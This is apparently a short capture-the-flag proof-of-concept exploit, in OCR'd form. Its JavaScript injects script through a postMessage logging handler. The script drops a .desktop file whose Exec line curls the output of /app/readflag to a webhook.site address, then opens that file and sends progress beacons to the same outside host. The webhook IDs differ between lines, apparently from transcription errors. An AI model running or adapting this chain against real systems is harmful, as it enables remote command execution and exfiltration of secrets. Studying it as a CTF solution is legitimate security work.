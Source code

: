 POC: [1]  
```
var JS = (function(){
    a = top.document.createElement('a');
    a.download = "pwn.desktop";
    a.href = "data:,[Desktop Entry]\nExec=curl https://webhook.site/ea4a966b-3574-4d6a-a8d8-7ca52ff02/?a=`/app/readflag`\nType=Application";
    a.click();
new Image().src='https://webhook.site/ea4a966b-3574-4d6a-a8d8-7caf28502?done=1';
    setTimeout(()=>{
        b = top.document.createElement('a');
        b.href = "file:///home/node/Downloads/pwn.desktop";
	b.click();
new Image().src='https://webhook.site/ea4a966b-3574-4d6a-a8d8-7caf2852ff02?done=2';
    },1000); 
});

var XML = `<x:script xmlns:x="http://www.w3.org/1999/xhtml">(${JS})()</x:script>`

top.postMessage({type:'logging', level: "test", msg: XML}, '*');
```

